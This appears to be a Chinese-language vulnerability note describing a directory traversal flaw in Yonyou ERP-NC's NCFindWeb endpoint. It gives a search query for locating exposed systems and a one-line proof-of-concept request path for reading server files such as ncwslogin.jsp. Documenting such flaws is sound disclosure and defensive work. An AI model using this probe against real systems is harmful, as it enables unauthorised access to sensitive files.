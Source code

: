 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

```
用友ERP-NC
```

## 网络测绘

```
app="用友-UFIDA-NC"
```

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![yongyou-8-1](images/yongyou-8-1.png)

查看 ncwslogin.jsp 文件

![yongyou-8-2](images/yongyou-8-2.png)